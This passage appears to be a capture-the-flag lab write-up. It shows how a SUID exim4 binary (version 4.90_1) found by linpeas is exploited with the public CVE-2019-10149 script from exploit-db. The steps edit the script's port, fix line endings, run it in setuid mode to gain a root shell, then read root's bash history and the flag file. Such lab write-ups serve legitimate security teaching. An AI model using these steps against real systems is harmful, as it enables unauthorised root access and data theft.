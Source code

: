 * From ```linpeas```, under the files with SUID bit set, we have a binary I have not seen before - ```/usr/sbin/exim4```

* Googling about this binary shows that it is a mail transfer agent; when we Google for 'exim4 suid', we get a lot of results related to privesc and exploit

* Researching further, it seems ```exim4``` has a [local root privesc vulnerability](https://www.exploit-db.com/exploits/46996) - we can exploit this:

  ```sh
  ls -la /usr/sbin/exim4

  /usr/sbin/exim4 --version
  # version 4.90_1

  # this matches 2019-10149 exploit
  ```

* Now, the exploit script will not work right away; we need to edit the exploit script:

  ```sh
  # check port on which exim4 is running
  ls -la /var/lib/exim4/

  # we have an auto-generated config
  less /var/lib/exim4/config.autogenerated

  # this shows that exim4 is listening on localhost, port 60000

  # we can now transfer the exploit script to the victim box and edit it

  # in victim machine
  vim 46996.sh

  # edit the port number, replace 25 with 60000

  bash 46996.sh -m setuid

  # we get some formatting errors
  # $'\r': command not found

  # seems we are facing issues with carriage-return character
  sed -i 's/\r$//' 46996.sh
  # removes the problematic character

  # run the exploit again
  bash 46996.sh -m setuid

  # we get root shell

  ls -la /root
  # we do not have root flag here
  # need to enumerate

  cat /root/.bash_history
  # this contains location of root flag

  cat /home/bubblegum/Secrets/bmo.txt
  ```

